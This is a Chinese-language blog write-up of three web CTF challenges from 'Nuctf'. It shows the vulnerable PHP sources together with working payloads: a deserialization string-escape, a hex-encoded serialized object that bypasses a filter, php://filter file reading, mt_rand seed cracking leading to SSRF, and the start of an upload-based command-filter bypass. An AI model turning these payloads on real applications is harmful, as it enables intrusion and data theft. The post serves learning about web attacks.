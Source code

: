 ```yaml
---
layout:    post
title:     Nuctf复现
subtitle:  学习学习
date:      2021-06-11
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - CTF
---
```


> 太菜了，只能赛后复现复现了。

### EasyUnser

这个还是很简单的，就简单说一下。只要学了**反序列化字符逃逸**，这个题是没有问题的。

```
<?php
    include_once 'flag.php';
    highlight_file(__FILE__);
    // Security filtering function
    function filter($str){
        return str_replace('secure', 'secured', $str);
    }
    class Hacker{
        public $username = 'margin';
        public $password = 'margin123';
    }
    $h = new Hacker();
    if (isset($_POST['username']) && isset($_POST['password'])){
        // Security filtering
        $h->username = $_POST['username'];
        $c = unserialize(filter(serialize($h)));
        if ($c->password === 'hacker'){
            echo $flag;
        }
    }
```

先随便构造一个：

```
<?php
class Hacker{
	public $username = 'aa';
	public $password = 'hacker';
}

$h = new Hacker();
echo serialize($h);
?>
```

得到：

```
 O:6:"Hacker":2:{s:8:"username";s:2:"aa";s:8:"password";s:6:"hacker";} 
```

而我们需要的部分为：

```
";s:8:"password";s:6:"hacker";} 
```

它的长度为 31。这里我们可以看到 filter函数会将 ``secure`` 替换为 ``secured``，使字符增加1，所以我们可以用 31个 ``secure``，将我们需要的字段逃逸出来，构造payload：

```
username=securesecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecuresecures";s:8:"password";s:6:"hacker";}&password=a
```

### Just Serizlize

```php
<?php

highlight_file(__FILE__);
include 'flag.php'; // $flag = "DASCTF{xxxxx}"
$obj = $_GET['obj'];
if (preg_match('/flag/i', $obj)) {
    die("?");
}
$obj = @unserialize($obj);
if ($obj->flag === 'flag') {
    $obj->flag = $flag;
}
foreach ($obj as $k => $v) {
    if ($k !== "flag") {
        echo $v;
    }
} 
```

```php
<?php
$obj = (object)['flag'=>'flag'];
$obj->k = &obj->flag;
echo serialize($obj);
?>
```

得到：``O:8:"stdClass":2:{s:4:"flag";s:4:"flag";s:1:"k";R:2;}``。

用 hex 编码 flag 绕过 ``if($k !== "flag")`` ，表示字符类型的 s 大写时，会被当成16进制解析，定义一个变量取 flag 变量的地址即可得到 flag 变量的值。

```
O:8:"stdClass":2:{S:4:"\66lag";S:4:"\66lag";s:1:"k";R:2;}
```

### crackme

php 变量：字母数字下划线。

所以需要绕过 变量中的``.``。

[![2bbAun.png](https://z3.ax1x.com/2021/06/15/2bbAun.png)](https://imgtu.com/i/2bbAun)

用 ``crack[me.com`` 绕过这个 ``.``。

伪协议读取题目提示的文件，把 ``bingbing``带上：

```
crack[me.com=php://filter/read=convert.base64-encode|bingbing/resource=ssssrf.php
```

得到 ssssrf.php:

```php
<?php
//next ,you can try ccccmd.php
error_reporting(0);
function curl($url){
	$ch=curl_init($url);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
	$result=curl_exec($ch);
	curl_close($ch);
	echo ($result);
}
$num=$_GET['num'];
mt_srand(getenv('SEED'));
$r1=mt_rand();
echo $r1;//1230557482
$r2=mt_rand();
if($num==$r2){
	$url=$_GET['url'];
	curl($url);
}
```

可以 ssrf ，但是需要先绕过 ``$r2=mt_rand();``。

这里 ``mt_srand(getenv('SEED'));`` 设置了种子，爆破伪随机数种子，使用 ``php_mt_seed``。得到种子，即得到第二个随机数，ssrf。

[![2qShxf.png](https://z3.ax1x.com/2021/06/15/2qShxf.png)](https://imgtu.com/i/2qShxf)

执行生成正确的种子：

```php
<?php
mt_srand("134196");
$r1 = mt_rand();
$r2 = mt_rand();
echo $r1."<br>";
echo $r2;
?>
//得到 396791256
```

得到随机种子，可以 ssrf，得到 ccccmd.php：

```php
<?php
//now you can crack me!
error_reporting(0);
if($_SERVER['REMOTE_ADDR']==='127.0.0.1'){
	if(isset($_GET['cmd'])){
		$cmd=$_GET['cmd'];
		if(!preg_match("/\;|\x0a|[a-z]|[0-9]|\~|\`|\\$|\^|\||\&|\%|\:|\(/i", $cmd)){
			system($cmd);
		}
		else{
			die('no way!');
		}
	}
}
else{
	die('get out stranger!');
}
```

到了这里，发现普通命令被过滤了，采用上传临时文件道 ``/tmp``，然后通配符匹配以 sh脚本执行。

构造上传数据包：

```html
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="utf-8">
	<meta name="viewport" content="width=device-width, initial-scale=1.0">
	<title>POST数据包POC</title>
</head>
<body>
<form action="http://xxx.xxx.xxx/xxx....." methon="post" enctype="multipart/form-data">
<!--链接是打开当前题目链接-->
	<label for="file">文件名：</label>
	<input type="file" name="file" id="file"><br>
	<input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

